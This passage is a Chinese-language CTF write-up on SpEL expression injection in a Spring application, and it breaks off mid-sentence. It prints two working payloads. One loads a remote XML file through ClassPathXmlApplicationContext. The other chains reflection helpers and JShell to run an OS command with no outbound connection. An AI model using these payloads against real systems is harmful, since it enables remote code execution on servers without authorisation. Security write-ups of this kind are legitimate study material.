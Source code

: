 #### 思路一：反射构造函数

由于在 spring 的环境下，我们可以利用 `ClassPathXmlApplicationContext` 构造函数来达成 SpEL 表达式执行，payload 会用到两个静态函数

1.  `org.apache.el.util.ReflectionUtil#forName`
2.  `com.zaxxer.hikari.util.UtilityElf#createInstance`

不细讲了，这个 payload 构造起来比较简单，当时比赛用的就是这个 payload

```bash
[[${T(org. apache.el.util.ReflectionUtil).forName("com.zaxxer.hikari.util.UtilityElf").createInstance("org."+"springframework.context.support.ClassPathXmlApplicationContext", T(org. apache.el.util.ReflectionUtil).forName("org."+"springframework.context.support.ClassPathXmlApplicationContext"), "http://ip/test.xml")}]]
```

#### 思路二：反射函数调用

由于比赛环境是可以出网的，思路一可以在公网挂载 xml 的方式来载入 exp。赛后想了下，如果是不出网的情况呢？能不能根据前面找到的静态函数来构造个不出网的命令执行或任意代码执行呢？这次 payload 组合了下面几个静态函数

1.  `ch.qos.logback.core.util.Loader#loadClass`
2.  `com.zaxxer.hikari.util.UtilityElf#createInstance`
3.  `org.apache.tomcat.util.IntrospectionUtils#callMethodN`

思路是通过 `createInstance` 构建 `jakarta.el.ELProcessor` 对象，然后再通过 `callMethodN` 来调用它的 `eval` 函数。因为比赛环境是 jdk17，所以后续的 EL 利用的是 `jdk.jshell.JShell` 来执行任意代码（在 jdk<=11 的环境下可以用 `javax.script.ScriptEngineManager`）。有兴趣的师傅可以从头构建一下下面的 payload，还是有些坑要踩的。

```bash
[[${T(org. apache.tomcat.util.IntrospectionUtils).callMethodN(T(com.zaxxer.hikari.util.UtilityElf).createInstance('jakarta.el.ELProcessor', T(ch.qos.logback.core.util.Loader).loadClass('jakarta.el.ELProcessor')), 'eval', new java.lang.String[]{'"".getClass().forName("jdk.jshell.JShell").getMethods()[6].invoke("".getClass().forName("jdk.jshell.JShell")).eval("java.lang.Runtime.getRuntime().exec(\"touch /tmp/success1\")")'}, T(org. apache.el.util.ReflectionUtil).toTypeArray(new java.lang.String[]{"java.lang.String"}))}]]
```

另外，在翻 `jdk.jshell.JShell` 的利用的时候，找到了 [这篇文章](https://codewhitesec.blogspot.com/2023/04/java-exploitation-restrictions-in.html) 对其利用的描述

> Thus, it seems that we don't have access to a lot of "useful" classes with the programmatic approach. But as you already might have guessed, using fully qualified class names can be used as well. We don't have to "fix" the `import` issue mentioned above but can still use all built-in JDK classes by referencing them accordingly: `java.nio.file.Files.createFile(java.nio.file.Paths.get(\"/tmp/RCE\"));`. This gives us again all the power needed to build (almost) arbitrary Java code payloads for exfiltrating data, putting them in a server response etc. pp.

JShell 的默认载入包的范围在
